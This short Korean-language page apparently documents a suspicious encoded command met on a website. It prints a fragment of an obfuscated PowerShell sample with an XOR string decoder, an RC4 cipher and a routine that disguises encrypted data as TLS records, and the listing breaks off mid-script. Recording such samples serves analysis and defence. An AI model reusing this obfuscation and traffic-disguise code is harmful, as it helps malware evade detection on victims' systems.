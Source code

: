특정 사이트의 링크로 들어가면 엄청엄청 긴 인코딩된 명령어가 나온다..  
<br>

---

```powershell
               $BBB88B8B888BBB88 = 0xf1,
                  0x6e,
    0xcd,
 0xc6,0x79,0x4c,0x66,0xd1,0x02,
          0xf8,0x33,0xc4,0x86,
                 0xe7,0xa4,
                      0x35,0x8d,
  0x69,0xbd,0xd2,0x1d,0x50,0xf5,0xfb,0xdf,0xec,0xaf,
     0x0b,0x9e,0x53,
    0xa4,0xd3
  function IIlIlIlIllIIllIl {
     param([int[]]$BBBB8888BBBBB8BB, [int]$BB8BB8B8BBB8B8B8)
                    $B8B8B8B8B8B8B8BB = ""
             foreach ($B888BB88888BBBBB in $BBBB8888BBBBB8BB) {
                        $B8B8B8B8B8B8B8BB += [char]($B888BB88888BBBBB -bxor $BB8BB8B8BBB8B8B8)
           }
                         return $B8B8B8B8B8B8B8BB
                  }
    function lIIIlllIIIIllllI {
     param (
                         [byte[]]$B8BBB8B8BB8BBB88,
                 [byte[]]$BBB8BBB8B88B88B8
        )
                 $BBB88BB88BB8BBB8 = 0..255
                 $B888B8BB888BB88B = 0
           for ($B8BB8BBB8BB8BBBB = 0; $B8BB8BBB8BB8BBBB -lt 256; $B8BB8BBB8BB8BBBB++) {
                           $B888B8BB888BB88B = ($B888B8BB888BB88B + $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB] + $B8BBB8B8BB8BBB88[$B8BB8BBB8BB8BBBB % $B8BBB8B8BB8BBB88.Length]) % 256
                             $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB], $BBB88BB88BB8BBB8[$B888B8BB888BB88B] = $BBB88BB88BB8BBB8[$B888B8BB888BB88B], $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB]
     }
                     $B8BB8BBB8BB8BBBB = 0
                    $B888B8BB888BB88B = 0
                        $BBBBB8BBB8BBB88B = @()
           foreach ($BBBB88888B888BBB in $BBB8BBB8B88B88B8) {
                             $B8BB8BBB8BB8BBBB = ($B8BB8BBB8BB8BBBB + 1) % 256
                              $B888B8BB888BB88B = ($B888B8BB888BB88B + $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB]) % 256
                            $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB], $BBB88BB88BB8BBB8[$B888B8BB888BB88B] = $BBB88BB88BB8BBB8[$B888B8BB888BB88B], $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB]
                        $B88BBB888BBB88B8 = $BBB88BB88BB8BBB8[($BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB] + $BBB88BB88BB8BBB8[$B888B8BB888BB88B]) % 256]
                       $BBBBB8BBB8BBB88B += ($BBBB88888B888BBB -bxor $B88BBB888BBB88B8)
          }
             return ,$BBBBB8BBB8BBB88B
                }
    function lllIIlIIlIllllll {
                  param ([string]$B888BBBBB8B8B8BB)
              $B888B8B8B88B8BB8 = [System.Text.Encoding]::UTF8.GetBytes($B888BBBBB8B8B8BB)
                   $BBBB8888BBBBB8BB = (lIIIlllIIIIllllI -B8BBB8B8BB8BBB88 $BBB88B8B888BBB88 -BBB8BBB8B88B88B8 $B888B8B8B88B8BB8) + (0x02,0x04,0x06,0x08)
                     $B88BBBBBB888888B = [System.BitConverter]::GetBytes([int16]$BBBB8888BBBBB8BB.Length)
        [Array]::Reverse($B88BBBBBB888888B)
       return (0x17, 0x03, 0x03) + $B88BBBBBB888888B + $BBBB8888BBBBB8BB
                }
             function llIIlllllIIIlllI {
```